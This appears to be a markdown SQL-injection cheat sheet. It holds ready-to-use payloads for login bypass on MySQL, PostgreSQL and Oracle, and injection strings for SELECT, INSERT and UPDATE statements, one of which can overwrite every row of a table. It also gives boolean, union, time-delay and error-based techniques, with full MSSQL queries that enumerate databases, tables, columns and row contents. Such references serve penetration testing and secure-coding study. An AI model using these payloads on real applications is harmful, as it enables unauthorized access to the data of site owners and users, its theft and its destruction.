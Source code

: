 # SQL injection

## Login bypass

### MySQL

```
' or 1=1;#
' or 1=1 LIMIT 1;#
```

### PostgreSQL

```
' or 1=1;--
' or 1=1;/*
' or 1=1 LIMIT 1;--
```

### Oracle

```
' or 1=1--
' or 1=1 LIMIT 1--
```

## Injection types

### SELECT

```
SELECT * FROM accounts WHERE user = 'xxx' AND pass = 'yyy'

xxx' OR 1=1;--            #hides the condition on pass field behind a comment
xxx' OR 1=1 LIMIT 1;--    #hides the extra quote with a comment and limits the results to 1 match (can avoid simple SQLi detections)
```

### INSERT

```
INSERT INTO accounts (user, pass, info) VALUES ('xxx', 'yyy', 'zzz');

xxx');<commands>;--    #close the open sets of quotes and brackets, hide the duplicates behind inline comment
```

### UPDATE

```
UPDATE accounts SET info='xxx' WHERE user = 'yyy';

xxx';<commands>;--    #DANGEROUS! Hides the WHERE clause, all info fields in table will be set to "xxx"
yyy';<commands>;--    #update statement completes normally, then the injected commands will be executed
```

## Techniques

### Boolean based

Execute a query containing a valid parameter (such as an item ID) and concatenate to the instruction a comparison statement that will always be true or false.

```
<param>' and 1=1;    #returns the item matching <param>
<param>' and 1=0;    #returns nothing
<param>' or 1=1      #returns everything
```

If the first statement returns the expected value and the second statement returns nothing then the field or parameter are vulnerable

#### Payload variants

```
' and 'a'='a'    #strings instead of numbers
' and "a"="a"    #double quotes instead of single
') and 1=1;      #closed round bracket to exclude other conditions
```

### Union based

1. Find the number of columns: `' or 1=1 order by <col number>; --` increase the number of columns until you get an error. Pay also attention to how the output is ordered, this allows you to match a column number to its output field.
2. Join data: `' or 1=1 union all select <fields> from <table>; --` since the UNION operation requires that both tables have the same column number, add NULL values for the missing columns in the select if the operation fails.

### Time based

Execute a query that results in a boolean statement (true/false). Use a time delay command to stop execution if the result is True. Useful to display boolean values since error based data disclosure doesn't work with them.

```
');if (IS_MEMBER ('db_owner') = 0) WAITFOR DELAY '0:0:5';--
```

This technique can also be used to verity the existence of an SQL injection vulnerability in the same way as the Boolean attack. If the application freezes for the given amount of time after executing the query then the field or parameter are vulnerable

```
<value>'; WAITFOR DELAY '0:0:5'; --
```

### Error based

If the field you're injecting is not used to display data it is possible to make the database print data by causing a cast error i.e. casting strings to integers. This allows you to read one value in a table at time, to print more values filter by row number.

```
'); select CAST(@@version as int);--
```

#### Print database list

```
');SELECT CAST (name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY name ASC) AS rownumber,name FROM master..sysdatabases) AS foo WHERE rownumber = <row>;--
```

#### Print tables in database

```
');SELECT CAST (name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY name ASC) AS rownumber,name FROM <db>..sysobjects WHERE xtype = 'U') AS foo WHERE rownumber = <row>;--
```

#### Enumerate columns

```
');SELECT CAST (foo.name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY archive..syscolumns.name ASC) AS rownumber,<db>..syscolumns.name AS name FROM <db>..syscolumns, <db>..sysobjects WHERE <db>..syscolumns.id=<db>..sysobjects.id AND <db>..sysobjects.name='<table>') AS foo WHERE rownumber = <row>;--
```

#### Select data from column in nth row

Insert the columns you need to read in the inner select, in this way it wil be possible to select by row number and read the content of the column one row at time.

```
');SELECT CAST (foo.col1 AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY id ASC) AS rownumber,<db>..<table>.<column> AS col1 FROM <db>..<table>) AS foo WHERE rownumber = <nth>;--
```
